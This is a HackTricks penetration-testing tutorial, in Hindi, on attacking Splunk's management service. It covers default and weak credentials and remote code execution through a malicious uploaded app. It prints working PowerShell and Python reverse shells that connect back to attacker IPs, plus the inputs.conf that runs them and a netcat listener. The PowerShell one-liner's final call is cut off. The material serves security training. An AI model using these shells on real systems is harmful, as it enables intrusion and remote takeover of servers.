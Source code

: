 # 8089 - Splunkd का पेंटेस्टिंग

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप एक **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की आवश्यकता है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!
* खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)
* प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **फॉलो** करें मुझे **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **अपने हैकिंग ट्रिक्स साझा करें द्वारा PRs सबमिट करके** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **और** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **को।**

</details>

## **मूलभूत जानकारी**

**Splunk** एक **लॉग विश्लेषण उपकरण** है जिसका उपयोग डेटा को इकट्ठा करने, विश्लेषण करने और दृश्यीकरण करने के लिए किया जाता है। हालांकि, पहले से यह एक SIEM उपकरण के लिए निर्मित नहीं था, लेकिन Splunk को अक्सर **सुरक्षा मॉनिटरिंग और व्यावसायिक विश्लेषण** के लिए उपयोग किया जाता है। Splunk डिप्लॉयमेंट अक्सर **संवेदनशील डेटा** को होस्ट करने के लिए उपयोग किया जाता है और यदि कंप्रोमाइज़ हो जाए, तो एक हमलावर के लिए बहुत सारी जानकारी प्रदान कर सकता है।

**डिफ़ॉल्ट पोर्ट:** 8089
```
PORT     STATE SERVICE VERSION
8089/tcp open  http    Splunkd httpd
```
{% hint style="info" %}
**Splunk वेब सर्वर डिफ़ॉल्ट रूप से पोर्ट 8000 पर चलता है।**
{% endhint %}

## जांच

### मुफ़्त संस्करण

Splunk Enterprise परीक्षण के बाद 60 दिनों के बाद एक **मुफ़्त संस्करण में बदल जाता है**, जिसमें **प्रमाणीकरण की आवश्यकता नहीं होती है**। सिस्टम प्रशासकों के लिए सामान्य है कि वे Splunk का परीक्षण करने के लिए एक परीक्षण संस्करण स्थापित करें, जिसे बाद में भूल जाते हैं। यह स्वचालित रूप से मुफ़्त संस्करण में बदल जाएगा जिसमें किसी भी प्रकार की प्रमाणीकरण नहीं होती है, जो पर्यावरण में एक सुरक्षा गड्ढा प्रविष्ट करता है। कुछ संगठन बजट सीमाओं के कारण मुफ़्त संस्करण का चयन कर सकते हैं, जिसमें उपयोगकर्ता / भूमिका प्रबंधन की कोई भी प्रकार की व्यवस्था नहीं होती है।

### डिफ़ॉल्ट प्रमाणपत्र

पुराने संस्करणों में Splunk के डिफ़ॉल्ट प्रमाणपत्र हैं **`admin:changeme`**, जो लॉगिन पेज पर सुविधाजनक रूप से प्रदर्शित होते हैं।\
हालांकि, **Splunk के नवीनतम संस्करण** में **प्रमाणपत्र** **स्थापना प्रक्रिया के दौरान सेट किए जाते हैं**। यदि डिफ़ॉल्ट प्रमाणपत्र काम नहीं करते हैं, तो `admin`, `Welcome`, `Welcome1`, `Password123` आदि जैसे सामान्य कमजोर पासवर्ड की जांच करने में मूल्य होता है।

### जानकारी प्राप्त करें

Splunk में लॉगिन करने के बाद, हम **डेटा ब्राउज़ कर सकते हैं**, **रिपोर्ट चला सकते हैं**, **डैशबोर्ड बना सकते हैं**, Splunkbase पुस्तकालय से **एप्लिकेशन स्थापित कर सकते हैं**, और कस्टम एप्लिकेशन स्थापित कर सकते हैं।\
आप कोड भी चला सकते हैं: Splunk में कोड चलाने के कई तरीके हैं, जैसे सर्वर-साइड Django एप्लिकेशन, REST एंडपॉइंट, स्क्रिप्टेड इनपुट्स, और अलर्टिंग स्क्रिप्ट्स। Splunk सर्वर पर दूरस्थ कोड निष्पादन करने का एक सामान्य तरीका स्क्रिप्टेड इनपुट का उपयोग करके होता है।

इसके अलावा, Splunk को Windows या Linux होस्ट पर स्थापित किया जा सकता है, इसलिए स्क्रिप्टेड इनपुट्स बनाए जा सकते हैं जो Bash, PowerShell, या Batch स्क्रिप्ट्स चलाने के लिए उपयोग करते हैं।

### शोडन

* `Splunk बिल्ड`

## RCE

### कस्टम एप्लिकेशन बनाएं

कस्टम एप्लिकेशन **Python, Batch, Bash, या PowerShell स्क्रिप्ट्स चला सकता है**।\
ध्यान दें कि **Splunk में Python स्थापित होता है**, इसलिए **Windows** सिस्टम में भी आप पायथन कोड चला सकेंगे।

आप [**इस**](https://github.com/0xjpuff/reverse\_shell\_splunk) Splunk पैकेज का उपयोग कर सकते हैं। इस रेपो में **`bin`** निर्देशिका में [Python](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/rev.py) और [PowerShell](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/run.ps1) के लिए उदाहरण हैं। चलिए इसे चरण-दर-चरण देखते हैं।

इसके लिए, हमें पहले निम्नलिखित निर्देशिका संरचना का उपयोग करके एक कस्टम Splunk एप्लिकेशन बनाने की आवश्यकता होगी:
```shell-session
tree splunk_shell/

splunk_shell/
├── bin
└── default
```
**`bin`** निर्देशिका में हमारे द्वारा चलाने की योजना बनाई गई कोई भी स्क्रिप्ट (इस मामले में, एक **PowerShell** रिवर्स शेल) होगी, और डिफ़ॉल्ट निर्देशिका में हमारी `inputs.conf` फ़ाइल होगी। हमारा रिवर्स शेल एक **PowerShell वन-लाइनर** होगा:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close(
```
[inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) फ़ाइल Splunk को **कौन सा स्क्रिप्ट चलाना है** और किसी अन्य शर्त को बताती है। यहां हम ऐप को सक्षम करते हैं और Splunk को हर 10 सेकंड में स्क्रिप्ट चलाने के लिए कहते हैं। अंतराल हमेशा सेकंड में होता है, और इन सेटिंग्स के मौजूद होने पर ही इनपुट (स्क्रिप्ट) चलेगा।
```shell-session
cat inputs.conf

[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = shell

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```
हमें `.bat` फ़ाइल की आवश्यकता है, जो एप्लिकेशन डिप्लॉय होने पर चलेगी और PowerShell वन-लाइनर को निष्पादित करेगी।

अगला कदम है `Install app from file` का चयन करना और एप्लिकेशन अपलोड करना।

<figure><img src="../.gitbook/assets/image (4) (5) (1).png" alt=""><figcaption></figcaption></figure>

हानिकारक कस्टम ऐप अपलोड करने से पहले, हम Netcat या [socat](https://linux.die.net/man/1/socat) का उपयोग करके एक लिस्टनर शुरू करेंगे।
```shell-session
sudo nc -lnvp 443

listening on [any] 443 ...
```
**अपलोड ऐप** पृष्ठ पर, ब्राउज़ पर क्लिक करें, पहले से बनाए गए टारबॉल को चुनें और **अपलोड** पर क्लिक करें। \*\*\*\* **जैसे ही हम ऐप्लिकेशन अपलोड करते हैं**, ऐप्लिकेशन की स्थिति स्वचालित रूप से `सक्षम` पर स्विच कर दी जाएगी और हमें एक **रिवर्स शेल प्राप्त होगा**।

#### लिनक्स

यदि हम **लिनक्स होस्ट** के साथ काम कर रहे होते, तो हमें टारबॉल बनाने और कस्टम विषाक्त ऐप अपलोड करने से पहले **`rev.py` पायथन स्क्रिप्ट को संपादित करने की आवश्यकता होगी**। बाकी प्रक्रिया समान रहेगी और हमें अपने नेटकैट सुनने वाले प्रश्नकर्ता पर रिवर्स शेल कनेक्शन मिलेगा और हम शुरू हो जाएंगे।
```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```
### RCE और विशेषाधिकार उन्नयन

निम्नलिखित पृष्ठ में आपको यह समझने में मदद मिलेगी कि इस सेवा का दुरुपयोग कैसे किया जा सकता है ताकि विशेषाधिकार उन्नयन और स्थायित्व प्राप्त किया जा सके:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## संदर्भ

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी कंपनी को **HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की इच्छा है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!
* खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)
* प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या मुझे **Twitter** पर **फ़ॉलो** करें [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **अपने हैकिंग ट्रिक्स साझा करें द्वारा PRs सबमिट करके** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **और** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **को।**

</details>
